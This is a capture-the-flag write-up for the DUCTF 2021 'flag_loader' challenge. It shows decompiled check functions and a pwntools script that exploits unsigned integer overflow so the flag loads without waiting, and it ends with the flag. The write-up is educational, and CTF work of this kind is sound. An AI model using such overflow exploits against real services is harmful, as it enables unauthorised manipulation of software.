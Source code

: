 #### Challenge:

What more could you ask for than a program that loads the flag for you? Just answer a few simple questions and the flag is yours! [flag_loader](./flag_loader ":ignore")

`nc pwn-2021.duc.tf 31919`

---

#### Solution:

- decompiling reveals that we need to pass 3 checks and then we wait for flag for `X` seconds based on the result of the check functions
    ```c
    void main()
    {
    char flag[264];
    int iVar1 = check1();
    int iVar2 = check2();
    int iVar3 = check3();

    puts("You\'ve passed all the checks! Please be patient as the flag loads.");
    puts("Loading flag... (this may or may not take a while)");

    sleep(iVar1 * iVar2 * iVar3);

    f = fopen("flag.txt","r");
    fgets(flag,0xff,f);
    printf("%s",flag);
    }
    ```
  - 1. check just reads `5` chars and compares them against static data `DUCTF`
  - 2. check requires us to solve equation `x + y = (rand() & 0xffff)` with few additional conditions, also resulting sleep depends on supplied values
    ```c
    uint check2(void)
    {
    long in_FS_OFFSET;
    uint local_1c;
    uint local_18;
    uint local_14;
    long local_10;
    
    local_10 = *(long *)(in_FS_OFFSET + 0x28);
    local_14 = rand();
    local_14 = local_14 & 0xffff;
    printf("Solve this: x + y = %d\n",(ulong)local_14);
    __isoc99_scanf("%u %u",&local_1c,&local_18);
    if ((((local_1c == 0) || (local_18 == 0)) || (local_1c <= local_14)) || (local_18 <= local_14)) {
        die();
    }
    if ((local_1c + local_18 != local_14) || ((local_18 * local_1c & 0xffff) < 0x3c)) {
        die();
    }
    if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                        /* WARNING: Subroutine does not return */
        __stack_chk_fail();
    }
    return local_18 * local_1c & 0xffff;
    }
    ```
  - 3. check requires us to solve equation `x1 + x2 + x3 + x4 + x5 = (rand() & 0xffff)` with few additional conditions, also resulting sleep depends on supplied values
    ```c
    uint check3(void)
    {
    long in_FS_OFFSET;
    uint local_28;
    uint local_24;
    uint local_20;
    uint local_1c;
    uint local_18;
    uint local_14;
    long local_10;
    
    local_10 = *(long *)(in_FS_OFFSET + 0x28);
    local_14 = rand();
    local_14 = local_14 & 0xffff;
    printf("Now solve this: x1 + x2 + x3 + x4 + x5 = %d\n",(ulong)local_14);
    __isoc99_scanf("%u %u %u %u %u",&local_28,&local_24,&local_20,&local_1c,&local_18);
    if ((((local_28 == 0) || (local_24 == 0)) || (local_20 == 0)) ||
        ((local_1c == 0 || (local_18 == 0)))) {
        die();
    }
    if (((local_24 <= local_28) || (local_20 <= local_24)) ||
        ((local_1c <= local_20 || (local_18 <= local_1c)))) {
        die();
    }
    if ((local_28 + local_24 + local_20 + local_1c + local_18 != local_14) ||
        (((local_18 - local_1c) * (local_20 - local_24) & 0xffff) < 0x3c)) {
        die();
    }
    if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                        /* WARNING: Subroutine does not return */
        __stack_chk_fail();
    }
    return (local_18 - local_1c) * (local_20 - local_24) & 0xffff;
    }
    ```
  - 4. while solving these equation we need to provide solutions in a way that `result1 * result2 * result3` is ideally zero as this will delay retrieval of flag

```python
#!/usr/bin/env python3
from pwn import *
import urllib.parse
import base64
import codecs

context.log_level = 'error'

r = remote('pwn-2021.duc.tf', 31919)

# Check 1 ###########################################################

print(r.recvuntil(b"letters:").decode('utf-8').strip())
r.sendline(b"\x44\x55\x43\xab\x47")

# Check 2 ###########################################################

print(r.recvuntil(b"= ").decode('utf-8').strip(), end='')
val = r.recvuntil(b"\n").decode('utf-8').strip()
print(val)

c2 = 0
# Finds solution so that multiplication fo result is zero thus waiting for 0s for flag
for c1 in range(0, 4294967296):
    x = (4294967295 - c1)
    y = (int(val) + 1 + c1)
    offset = (x *  y  & 0xffff)
    if offset > 60 and offset > 10000 and 134217728 % offset == 0:
        c2 = int(134217728 / offset)
        r.sendline(str(x).encode('utf-8'))
        r.sendline(str(y).encode('utf-8'))
        break

# Check 3 ###########################################################

print(r.recvuntil(b"= ").decode('utf-8').strip(), end='')
val = r.recvuntil(b"\n").decode('utf-8').strip()
print(val)

c2 = c2 - 60
xx = [
    (int(val) + 1 - 36 - c2), int(1073741805), int(1073741806), int(1073741830), int(1073741890 + c2),
]
for v in xx:
    r.sendline(str(v).encode('utf-8'))

r.interactive()
```

---

<details><summary>FLAG:</summary>

```
DUCTF{y0u_sur3_kn0w_y0ur_int3gr4l_d4t4_typ3s!}
```

</details>
<br/>
